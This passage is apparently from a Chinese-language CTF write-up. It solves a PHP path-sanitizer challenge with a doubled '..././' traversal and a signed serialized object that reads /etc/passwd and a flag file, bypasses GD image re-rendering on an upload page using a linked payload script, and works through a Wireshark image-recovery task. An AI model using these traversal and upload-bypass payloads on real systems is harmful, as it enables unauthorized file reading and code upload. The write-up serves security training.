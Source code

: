 ![image](https://user-images.githubusercontent.com/38073810/56417710-57a5ac00-62c7-11e9-9a85-4fc004ba1669.png)
发现代码有双层防护，保证path安全。
sanitizepath可以使用双写绕过
``` bash
Payload:../
双写后：..././
```
再看限制字符为18。
此时尝试读取/etc/passwd。计算其长度，为10。此时我们可以构造如下：
``` bash
Payload:/etc/../etc/passwd
双写后:/etc/..././etc/passwd
序列化后:O:11:"Application":1:{s:4:"path";s:21:"/etc/..././etc/passwd";}
按规则签名后:O%3a11%3a"Application"%3a1%3a{s%3a4%3a"path"%3bs%3a21%3a"/etc/..././etc/passwd"%3b}75c51ff78b04d77138ca58f797dedc0a;
```
![image](https://user-images.githubusercontent.com/38073810/56418102-8c663300-62c8-11e9-93bb-dcd09e00c8a1.png)
此时我们读取了/etc/passwd
最终在 ../config/flag.txt读到flag
![image](https://user-images.githubusercontent.com/38073810/56418180-c6373980-62c8-11e9-95c4-7b2bea1d74c5.png)
### 三、Upload-IMG
![image](https://user-images.githubusercontent.com/38073810/56418271-01396d00-62c9-11e9-9a1c-9aaadd5beb6a.png)
靶机：http://117.51.148.166/upload.php
知识点：GD库渲染绕过
#### 1、上传文件
首先随便上传一张jpg图片
然后把上传成功的图片下载到本地
#### 2、文件对比
利用在线图片对比：http://www.newjson.com/Static/Tools/Diff.html
![image](https://user-images.githubusercontent.com/38073810/56418545-c257e700-62c9-11e9-8a5d-ac903fddf422.png)
然后发现文件被调用GD库渲染过了，所以我们来绕过GD库
#### 3、生成payload并上传
我们直接使用大牛的Payload脚本：https://github.com/Medicean/VulApps/blob/master/c/cmseasy/1/jpg_payload.php
![image](https://user-images.githubusercontent.com/38073810/56418862-da7c3600-62ca-11e9-9805-e53358e94223.png)
#### 4、Get Flag
![image](https://user-images.githubusercontent.com/38073810/56419064-8faeee00-62cb-11e9-9ed8-c9412fa5448c.png)
## Misc解题思路
### 一、Wireshark
![image](https://user-images.githubusercontent.com/38073810/56419440-d5b88180-62cc-11e9-8841-93adcc1fe2dc.png)
#### 1、下载文件
用Wireshark打开，然后我们直接先导出http对象到本地
![64BC6486-5381-44C5-8EA0-1ADE9B17A850](https://user-images.githubusercontent.com/38073810/56420096-39dc4500-62cf-11e9-82bd-7bc1018d440d.png)
![7704BCEE-E57B-4A73-82E2-E2248211DAA4](https://user-images.githubusercontent.com/38073810/56420099-3e086280-62cf-11e9-8358-df1c645d7d83.png)
![image](https://user-images.githubusercontent.com/38073810/56420285-ea4a4900-62cf-11e9-9e9a-6c21ae0f1f25.png)
#### 2、文件分析
我们首先用notepade打开%5c(1)，发现他是一张png图片，然后把png头文件格式之前全部删除，保存之后修改后缀为.png
![E2210F4A-55C6-4B25-9060-33DD84E1AF4B](https://user-images.githubusercontent.com/38073810/56420420-79576100-62d0-11e9-94b5-7f55ecb987df.png)
![EA28F0CF-DB21-4068-9900-AF81BE4967F6](https://user-images.githubusercontent.com/38073810/56420426-7bb9bb00-62d0-11e9-8033-1fab298125ec.png)
打开后根据经验判断，图片高度应该被修改过了，我们把图片高度稍微调高一点，得到key
![5124FCA7-ED8A-4A3C-8D3A-6A0C868560D5](https://user-images.githubusercontent.com/38073810/56420495-bf142980-62d0-11e9-8634-ff79ec22cfc2.png)
